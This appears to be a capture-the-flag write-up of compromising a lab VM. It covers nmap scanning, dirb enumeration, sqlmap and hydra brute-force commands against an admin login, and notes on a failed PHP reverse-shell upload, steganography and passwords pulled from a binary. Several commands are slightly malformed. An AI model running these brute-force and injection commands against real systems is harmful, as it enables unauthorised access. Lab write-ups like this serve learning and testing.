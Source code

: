 Without further ado.

# Pre-Att&ck: technical information gathering

Kicked off the nmap scan

```
# Nmap 7.80 scan initiated Sun Oct  4 02:37:02 2020 as: nmap -p- -sCV -O -A -oA /home/kali/simple_wall/enum/nmap/tcpscan.2020-10-04.02:37:02 172.16.2.42
Nmap scan report for 172.16.2.42
Host is up (0.0015s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 98:b7:f5:6b:0d:58:1d:7b:58:7d:1a:99:fb:b1:8f:04 (RSA)
|   256 66:b4:4b:40:e6:c9:76:93:31:aa:fc:ff:9a:40:a9:f9 (ECDSA)
|_  256 55:c6:b2:01:0f:16:1c:68:96:e2:bb:b1:fe:ff:59:c2 (ED25519)
53/tcp   open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Eskwela Template
5355/tcp open  llmnr?
MAC Address: 08:00:27:ED:95:60 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

What these mean  
**22/SSH** is usually not going to net easy wins in CTF's.  
**53/TCP** is also not a usual vector although we have seen a recent CVE for a Windows DNS RCE based on a longtime bug in the OS. Likely a rabbithole to pursue further.  
**80/HTTP**: Web apps are always a rich source of vulns, so this is immediately high priority. We get a version for the apache http daemon which could turn up a vuln as a result of the -sCV tag the (sC triggers some basic NSE scripts)  
**5355/LLMNR** link-local multicast name resolution is a service that supports DNS on local subnets [wikipedia](https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution). Most likely this is working in conjunction with the DNS service on port 53. It's not immediately clear why the box is running this, and ultimately the exploitation vector had nothing to do with it.

# Att&ck: Initial Access

## Attacking TCP/80/HTTP

My typical procedure is to run a directory crawler that supports a proxy such as dirb and then have ZAP or BurpSuite proxy the traffic, causing them to automatically construct a nice site map. In addition, this helps to seed the spidering features on both of those applications:

```
dirb http://172.16.2.42 /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36" -p http://127.0.0.1:8080

```

\*\*Note\*\* when proxying a scanner like this, make sure you filter 404s out of the site map before starting. If not done, your site map will fill up with 1000s of entries for 404 responses. Burp filters 4xx by default (which could be too much as 403s can be very useful) but ZAP doesn't.

In addition, I picked at random one of the most common/popular user agents. This is to avoid the "script-kiddie" mistake of brute forcing a page and advertising it with a user agent that names your brute forcing tool.

a /administrator/ page was picked up by the above wordlist. It redirected to an index.php which possessed a login form, which I manually tested for SQL injectability.

```bash
sqlmap 172.16.2.42/administrator/index.php --forms
```

Manual and automated injection failed so I attempted to brute force it by testing out some predictable creds and passwords. i started off with I also used Cewl to scrape username/password ideas, and made lists with that.

```bash
cewl 172.16.2.42 > cewl_output.txt

# some manual parsing, extracting things which look like usernames into  cewl_usernames.txt and putting the entire dump into cewl_passwords.txt

hydra -cewl_usernames.txt -P cewl_passwords.txt 172.16.2.42 http-post-form "/administrator/index.php:username=^USER^&pass=^PASS^:F=Failed" -e nsr -t27 -f -I
```

No dice

```bash
for val in (ls /usr/share/wordlists/SecLists-master/Passwords/Common-Credentials/10-million*.txt)
            echo "****************************** $val ******************************"
            hydra -lmrrobot -P $val 172.16.2.42 http-post-form "/administrator/index.php:username=^USER^&pass=^PASS^:F=Failed" -e nsr -t27 -f -I
    end

```

anused zsteg to decode challenge  
[2020-Oct-04 06:12:14 UTC] > found some semi useful comments on the admininstrator/index.php tab. also found a flag in /images/flag.txt.txt. gained appreciation for nmap --script http-\* particularly the comment enum functionality. would like to build out comment function a bit further  
[2020-Oct-09 05:44:06 UTC] > stuck trying to upload shell. form accepts images and server is running php. php rev shell not working. modifying extension to php allows upload, but server complains of errors in the png file. listerner doesnt catch reverse shell.  
[2020-Oct-09 05:45:58 UTC] > had success with the zsteg tool after trying close to 10 tools that couldn't identify the stego in hidden.png. embarrassingly actually contacted author of the box, who also suggested zsteg. has been added to arsenal  
[2020-Oct-09 06:01:52 UTC] > binary observed in www-data directory contained the strings Digite a senha: MrR0b0t121 n Senha errada n Senha Correta n Password@1238  
[2020-Oct-09 06:02:16 UTC] > home directory also contained a dot file indicating the user has sudo rights

```zsh
for x in `cat /usr/share/wordlists/SecLists-master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt`; do echo $x|./buffer|grep -vi "errada"|grep -vi "Digite a senha"|grep -vi "^\s*$"; done
```

# anti forensics techniques

# persistence techniques

# data exfiltration

# impact
